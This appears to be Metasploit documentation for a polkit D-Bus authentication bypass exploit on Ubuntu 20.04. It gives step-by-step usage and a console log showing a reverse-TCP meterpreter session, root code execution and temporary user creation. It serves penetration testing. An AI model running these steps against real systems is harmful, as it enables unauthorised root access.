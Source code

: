 ## Description

This module exploits a authentication bypass in Linux machines that make use of the polkit system service.
The vulnerability enables an unprivileged local user to get a root shell on the system.

This exploit needs be run from an SSH or non-graphical session. The `dbus-send` command which is used to trigger the exploit,
launches an authentication agent. When run from a graphical session, an authentication agent pops up in the form of a
dialog box and waits for user input. This dialog box will cause the dbus-command to time out waiting for user input and
will prevent successful exploitation of polkit

If `systemd` is installed on the system the session service type can be checked by running: `loginctl session-status`.
The following output (x11) indicates a graphical session is being run and the exploit will not work:

`Service: gdm-password; type x11; class user`

The following output (tty) indicates a non-graphic session is being used and the exploit is likely to be successful:

`Service: sshd; type tty; class user`

## Vulnerable Application
This module has been tested successfully on:

* Ubuntu 20.04

### Installation And Setup

Download and install Ubuntu 20.04 from the Ubuntu Downloads page: https://ubuntu.com/download/desktop

## Verification Steps
1. Start msfconsole.
2. Get a session.
3. Do: `use exploit/linux/local/polkit_dbus_auth_bypass`.
4. Set the `SESSION` to the session obtained in step 2.
5. Set the `LHOST`, `LPORT` and `PAYLOAD` options as appropriate.
6. Do: `run`.
7. It is possible for the exploit to fail. If this happens, increase the value of the ITERATIONS option to attempt the exploit more times before failing and attempt the exploit again.
8. Enjoy the shell.

## Options

**SESSION**
The session to run this module on.

**USERNAME**
The name of the user the exploit will add to the system

**PASSWORD**
The password for the user to be created

**WritableDir**
Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Ubuntu 20.04
```
msf > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.146:49882) at 2021-06-25 17:54:45 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf exploit(multi/handler) > use polkit_dbus
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/local/polkit_dbus_auth_bypass  2021-06-03       excellent  Yes    Polkit Authentication Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/polkit_dbus_auth_bypass

[*] Using exploit/linux/local/polkit_dbus_auth_bypass
msf exploit(linux/local/polkit_dbus_auth_bypass) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4443
lport => 4443
msf exploit(linux/local/polkit_dbus_auth_bypass) > set session 1
session => 1
msf exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[*] Checking for exploitability via attempt
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user msf
[+] User msf created with UID 1019
[*] Attempting to set the password of the newly create user, msf, to: NpJsQSti
[+] Obtained code execution as root!
[*] Writing '/tmp/vOWnn' (207 bytes) ...
[*] Sending stage (984904 bytes) to 192.168.123.146
[+] Deleted /tmp/vOWnn
[*] Meterpreter session 2 opened (192.168.123.1:4443 -> 192.168.123.146:42066) at 2021-06-25 17:55:27 -0400
[*] Attempting to remove the user added:
[+] Successfully removed msf

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.123.146
OS           : Ubuntu 20.04 (Linux 5.8.0-55-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
